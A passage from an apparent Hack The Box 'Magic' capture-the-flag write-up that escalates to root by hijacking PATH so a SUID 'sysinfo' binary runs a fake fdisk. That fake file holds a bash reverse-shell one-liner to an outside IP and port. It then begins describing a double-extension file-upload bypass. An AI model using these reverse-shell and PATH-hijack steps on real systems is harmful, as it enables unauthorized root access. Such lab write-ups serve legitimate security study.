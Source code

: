 Decompiling the binary, we can find that fdisk and lshw are executed without specifying the full path. This leaves the binary vulnerable to path hijacking attacks. 

![sysinfo](https://github.com/joelczk/writeups/blob/main/HTB/Images/Magic/sysinfo.png)

First, we will create a reverse shell payload into the fdisk binary in the /tmp directory

```
theseus@ubuntu:/tmp$ echo -e '#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/2000 0>&1"' > fdisk
echo -e '#!/bin/bash\n\n/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/2000 0>&1"' > fdisk
theseus@ubuntu:/tmp$ cat fdisk
cat fdisk
#!/bin/bash

/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.8/2000 0>&1"
theseus@ubuntu:/tmp$ chmod +x fdisk
chmod +x fdisk
```

Next, we will add the /tmp into our $PATH environment variable.

```
theseus@ubuntu:/tmp$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
theseus@ubuntu:/tmp$ export PATH="/tmp:$PATH"
export PATH="/tmp:$PATH"
theseus@ubuntu:/tmp$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Executing sysinfo will then spawn the reverse shell.

### Obtaining root flag
```
root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
```

## Post Exploitation
### Exploring file upload in upload.php
In upload.php, we realize that we are only able to upload JPG, PNG or JPEG files. However, in the code that was used to validate the file types, ```pathinfo``` is used, and ```pathinfo``` returns the $imageFileType as the last file extension if there are multiple file extensions.
